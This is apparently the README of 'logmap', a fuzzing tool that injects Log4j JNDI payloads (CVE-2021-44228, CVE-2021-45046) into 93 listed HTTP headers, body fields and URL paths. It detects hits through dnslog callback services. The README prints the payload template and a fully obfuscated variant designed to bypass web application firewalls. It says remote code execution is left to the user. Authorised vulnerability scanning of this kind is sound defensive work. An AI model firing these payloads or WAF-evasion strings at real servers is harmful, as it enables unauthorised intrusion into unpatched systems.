 # logmap 0.4 - Log4j jndi injection fuzz tool

Used for fuzzing to test whether there are log4j2 jndi injection vulnerabilities in header/body/path  
Use https://log.xn--9tr.com dnslog by default, If you want to use http://ceye.io, you need to modify the domain and token  
Manually edit line [#463](https://github.com/zhzyker/logmap/blob/main/logmap.py#L429) in logmap.py to modify:  
`args.ceye = ["xxxxxx.ceye.io", "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]`  
to   
`args.ceye = ["1234567.ceye.io", "843fd6d58a8ebede756a2b991d321a5a"]`  

The default payload is `${{jndi:ldap://you-domain/path}}` Use `-w` or `-waf` to obfuscate the payload to bypass waf, it looks like:  
 `${${zod:as:-j}ndi:ldap:${MOH7P:-/}/${jUqr1:dlhUT:zX:Mu:rXx:-9}b71${6r3c:E8ExQh:a:iqML:-a}${jLR:s6xE:-7}${j:zzb:-3}d8${f:CF:DpXSA:-0}${7:2:yM:LnbSk:-1}c3199${4tPUvE:fj7:6K:xpqPQc:rCnYQB:-1}${G:Q:SET9R:u:9t0cc1:-1}${cLF:kENZON:e:p6f:-9}${y:i:abgu0:2cb:-3}6${35aUvK:40sxe:PaVK:cR:-d}${ysVe:byc:e:5nvP:9yVRko:-3}${Cm:DLU:-c}3f0b${iiuZKY:taWD:-4}${B:VK3:3BWv:L:-4}${KA6:GX:xxVWZg:-3}5.${6E50:-f}${iNN4:Ol:XLrqD:-3}${3Fh:T6:-6}e4${IAyoy:-d}${hMZgt:bmBCp9:bY6ofD:KR:-e}${6Ny3E:-b}.${K:Q:-d}n${FLlWGk:-s}.14${8M:-3}${W0u:LA5Z:N:-3}${t5FH:-.}e${GL:x0L72g:bqf9:6:pRQp:-u}${VIq:V:-.}${r:zFcvb:7hqmx:HTGO8:-o}r${n1ZHSo:w:-g}./Efti${Q3:-G}1}`   
Bypass reference: [StringObfuscator2.java](https://github.com/woodpecker-appstore/log4j-payload-generator/blob/master/src/main/java/me/gv7/woodpekcer/vuldb/StringObfuscator2.java) by https://github.com/c0ny1

Use `-c 1` or `--cve 1` to specify the payload, support: [1:CVE-2021-44228, 2:CVE-2021-45046]  

This is just a jndi injection fuzz tool, rce or others need yourself  

# Use  
```bash
zhzy@debian:~/$ pip3 install -r requirements.txt
zhzy@debian:~/$ python3 logmap.py -h
```


![banner](https://user-images.githubusercontent.com/32918050/145970843-3d5522f6-0064-4464-b7f8-48efcd41ffbc.png)  

# Options
```bash
  -u URL, --url URL     Target URL (e.g. http://example.com )
  -f FILE, --file FILE  Select a target list file (e.g. list.txt )
  -c 1, --cve 1         CVE [1:CVE-2021-44228, 2:CVE-2021-45046] default 1
  -d 1, --dns 1         Dnslog [1:log.xn--9tr.com, 2:ceye.io] default 1
  -p PAYLOAD            Custom payload (e.g. ${jndi:ldap://xx.dns.xx/} )
  -t 10                 Http timeout default 10s
  -o file               Output file
  -w, --waf             Obfuscate the payload and bypass waf
  --proxy PROXY         Proxy [socks5/socks4/http] (e.g. http://127.0.0.1:8080)
  -h, --help            Show this help message and exit
```

# Config  
There are currently 93 fuzz headers  
```
Accept
Accept-Charset
Accept-Datetime
Accept-Encoding
Accept-Language
Ali-CDN-Real-IP
Authorization
Cache-Control
Cdn-Real-Ip
Cdn-Src-Ip
CF-Connecting-IP
Client-IP
Contact
Cookie
DNT
Fastly-Client-Ip
Forwarded-For-Ip
Forwarded-For
Forwarded
Forwarded-Proto
From
If-Modified-Since
Max-Forwards
Originating-Ip
Origin
Pragma
Proxy-Client-IP
Proxy
Referer
TE
True-Client-Ip
True-Client-IP
Upgrade
User-Agent
Via
Warning
WL-Proxy-Client-IP
X-Api-Version
X-ATT-DeviceId
X-Client-IP
X-Cluster-Client-IP
X-Correlation-ID
X-Csrf-Token
X-CSRFToken
X-Do-Not-Track
X-Foo-Bar
X-Foo
X-Forwarded-By
X-Forwarded-For-Original
X-Forwarded-For
X-Forwarded-Host
X-Forwarded
X-Forwarded-Port
X-Forwarded-Protocol
X-Forwarded-Proto
X-Forwarded-Scheme
X-Forwarded-Server
X-Forwarded-Ssl
X-Forwarder-For
X-Forward-For
X-Forward-Proto
X-Frame-Options
X-From
X-Geoip-Country
X-Host
X-Http-Destinationurl
X-Http-Host-Override
X-Http-Method-Override
X-HTTP-Method-Override
X-Http-Method
X-Http-Path-Override
X-Https
X-Htx-Agent
X-Hub-Signature
X-If-Unmodified-Since
X-Imbo-Test-Config
X-Insight
X-Ip
X-Ip-Trail
X-Leakix
X-Original-URL
X-Originating-IP
X-ProxyUser-Ip
X-Real-Ip
X-Remote-Addr
X-Remote-IP
X-Requested-With
X-Request-ID
X-True-IP
X-UIDH
X-Wap-Profile
X-WAP-Profile
X-XSRF-TOKEN
```
Some body and path  
You can also modify him to add your own body  
```
payload={}
user={}
pass={}
username={}
password={}
login={}
... ...
?id={}
?username={}
... ...
```
